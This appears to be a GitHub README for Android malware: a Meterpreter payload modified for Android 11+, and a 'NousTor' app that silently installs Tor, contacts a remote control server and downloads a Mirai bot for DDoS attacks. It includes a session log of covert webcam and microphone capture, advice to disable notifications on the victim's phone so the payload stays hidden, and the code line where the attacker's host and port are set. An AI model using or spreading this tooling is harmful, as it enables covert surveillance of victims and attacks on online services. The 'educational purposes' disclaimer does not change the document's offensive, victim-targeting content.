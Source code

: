 # Meterpreter-Android
<img src="https://cloud.githubusercontent.com/assets/7417870/12315404/6dd58120-bab5-11e5-8a10-d5fec03d38d2.gif" width="100" align="right">
Meterpreter payload modified for Android, make it compatible with Android 11+, functions such as camera preview and microphone recording are working properly.

I recommend that after installing the payload on the victim's cell phone, disable the app's notification permission, to make the payload quieter.
```
meterpreter > sysinfo
Computer        : localhost
OS              : Android 13 - Linux 4.19.191-perf-g3c7e48ca8847 (aarch64)
Architecture    : aarch64
System Language : pt_BR
Meterpreter     : dalvik/android
meterpreter > webcam_snap -i 2
[*] Starting...
[+] Got frame
[*] Stopped
Webcam shot saved to: /root/android/bOjFlXzC.jpeg
meterpreter > record_mic -d 5
[*] Starting...
[*] Stopped
Audio saved to: /root/android/TLbcSexf.wav
meterpreter >
```

Setting:

Open the file: Nous/app/src/main/java/nous/client/Payload.java

On line 26 edit your host and Port.
```
public static final String URL = "ZZZZtcp://Host:Port
```

Compiler:
https://github.com/LGLTeam/AIDE-Mods

---

# Tor Network "NousTor.zip"

## Description:
This Android application is designed to perform various harmful activities on the victim's device without their consent. It includes the following functionalities:

1. **Background Installation of Tor**: The application silently downloads and installs the Tor software in the background, without the user's knowledge. This allows the application to communicate anonymously over the Tor network, hiding its malicious activities.

2. **Communication via Tor Network**: Once installed, the application utilizes the Tor network for communication, sending and receiving data from a remote control server. This makes it difficult to detect and trace the malicious activities, as network traffic is encrypted and routed through multiple nodes in the Tor network.

3. **Installation of Mirai Bot**: Additionally, the application downloads and installs the Mirai bot, adapted for Android devices, from a remote server. This bot can be programmed to perform a variety of malicious functions, such as launching distributed denial-of-service (DDoS) attacks, stealing personal information from the user, or infecting other devices on the same network.

4. **Execution of DDoS Attacks**: Once the Mirai bot is active on the victim's device, it can be used to launch DDoS attacks against servers and websites, causing service disruptions and damage to online infrastructure.

## Disclaimer:
This application is created for educational purposes only and should not be used for any malicious activities. The developer assumes no responsibility for any illegal use of this application.

## Legal Notice:
Unauthorized use and distribution of this application may violate local, state, and federal laws. The developer disclaims any liability for the misuse of this application. Use at your own risk.

## Support:
For questions or support, please contact the developer at 

---
